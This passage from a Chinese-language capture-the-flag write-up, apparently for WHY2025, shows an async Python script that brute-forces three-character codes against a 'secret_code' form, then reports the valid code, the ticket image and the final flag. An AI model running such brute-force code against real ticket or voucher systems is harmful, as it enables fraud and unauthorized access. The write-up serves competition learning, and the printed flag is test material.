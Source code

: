 ```python
    async with session.post(url, data={"secret_code": code}) as r:
        content_type = r.headers.get("Content-Type", "")
        raw_data = await r.read()
        tested_count += 1
        print(f"[進度] {tested_count}/{total_combos} 測試 {code}", end="\r")

        try:
            text = raw_data.decode('utf-8')
        except UnicodeDecodeError:
            text = ""

        if "already used" not in text and "Unknown code!" not in text:
            print(f"\n[可能有效] {code}")
            print(f"[Content-Type] {content_type}")
            if text:
                print(f"[Text preview] {text[:100]}")
            else:
                print(f"[Binary data preview] {raw_data[:20]}")
            return code
    return None

async def main():
    async with aiohttp.ClientSession() as session:
        tasks = []
        for combo in itertools.product(charset, repeat=3):
            code = "23D" + "".join(combo)
            tasks.append(asyncio.create_task(check_code(session, code)))
            if len(tasks) >= 50:
                results = await asyncio.gather(*tasks)
                for result in results:
                    if result:
                        print("\n[找到有效代碼] 停止搜尋")
                        return
                tasks.clear()
        if tasks:
            await asyncio.gather(*tasks)
asyncio.run(main())
```

找到一個 `23DF2W`，回傳回來的好像是圖檔

![](/assets/WHY2025/IMG-20250809181812279.png)

實際輸入到 input 裡面再按下 `Check Code`，就拿到票了 xddd

![](/assets/WHY2025/IMG-20250809181838010.png)

我把 qrcode 拿去給 google 掃，就得到 flag 了

![](/assets/WHY2025/IMG-20250809181917161.png)

```txt
flag{5c2eb61a39c2528008508b687d0af328}
```
